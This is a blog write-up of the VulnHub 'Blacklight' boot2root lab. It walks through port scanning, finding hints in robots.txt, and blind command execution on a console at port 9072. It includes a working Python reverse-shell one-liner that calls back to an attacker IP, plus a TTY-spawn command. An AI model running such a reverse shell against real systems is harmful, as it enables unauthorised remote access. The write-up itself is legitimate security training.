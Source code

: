 ```yaml
---
layout: post
title:	"Blacklight Writeup"
date:	2018-07-22 03:00:00
categories:
    - writeups
tags:
    - ctf
    - boot2root
    - vulnhub
---
```

<head>
	<title> Testing </title>
</head>
<title> Blacklight Writeup </title>
![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/logo.png)

## i. Port Scan

Full TCP port scan using unicornscan:

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/port.png)

~~~
$ unicornscan -Iv -r 160 -mT IP:a

-Iv = Immediately display results as they are found (-v = verbose)
-r = rate of packets to send per second
-mT = mode TCP
IP = host's ip
a = all (Scan 65535 ports)
~~~

<center> `Ports 80 and 9072 are open` </center>

## ii. Enumeration

Starting with port 80, we browse to the host.

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/http.png)

We got a hint, `The web is the way`.

Running a directory search to see if we can find any hidden files or directories:

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/dirsearch.png)

`robots.txt` seems to stand out.

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/robots.png)

Inside, we find flag1.txt and what seems to be a dictionary file.

Navigating to flag1.txt:

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/flag1.png)

Perfect, flag #1 captured.

The next hint is:
~~~
9072. The secret is at home.
~~~

Could this be referring to port 9072 that we found open in the port scan?

Connecting to port 9072 using netcat:

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/console.png)

It seems that we are able to execute a few commands.

Running .readhash:

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/hash.png)

Could this hash be related to the wordlist we found earlier?

Attempting to crack the hash using hashcat with the blacklight dictionary:

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/cracker.png)

Looks like the hash can't be cracked... let's move on to the next command in the console.

.exec seems like it allows us to execute commands. Let's try a basic command to see if it is executed.

`Note: Once you issue two commands to the server (including .readhash), port 9072 will close and you will have to restart the virtual machine.`

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/exec.png)

Seems like the command is not executed, (or maybe it is?), but we cannot see the output.

To test our theory for blind command execution, we can host a web server and execute wget in the console to see if any connections are made:

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/exec.png)

Perfect, it looks like the box is making a connection to our host.

Which means that the box is executing commands, but we don't see the output (therefore it is called blind).

## iii. Reverse Shell

Since we know that the box is able to execute commands, let's try a reverse shell.

Python One Liner:
~~~
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

source: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
~~~

Make sure to update the command with your IP Address & Listening Port.

Using Port 443 is more reliable, just in case the host has some sort of firewall setup that is blocking outbound connections on unknown ports.

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/revshellpart1.png)

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/revshellpart2.png)

After executing the command, we got a reverse shell.

We are able to use this python one-liner to spawn a TTY shell.

~~~
python -c 'import pty;pty.spawn("/bin/bash")'
~~~

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/pty.png)

`Looks like we are root already!`

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/root.png)

# IV. Conclusion

Blacklight was fun & easy. The hash rabbit hole drove me crazy for a few hours, while I tried cracking with wordlists such as rockyou, or trying to use the blacklight wordlist with rules.

Apart from that, I felt that the privilege escalation was a little incomplete, as we were elevated to root immediately.

Apart from that, I enjoyed the box.

Find the box on Vulnhub: https://www.vulnhub.com/entry/blacklight-1,242/

~~~
Sources / Links:

[0]: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
[1]: https://www.vulnhub.com/entry/blacklight-1,242/
~~~


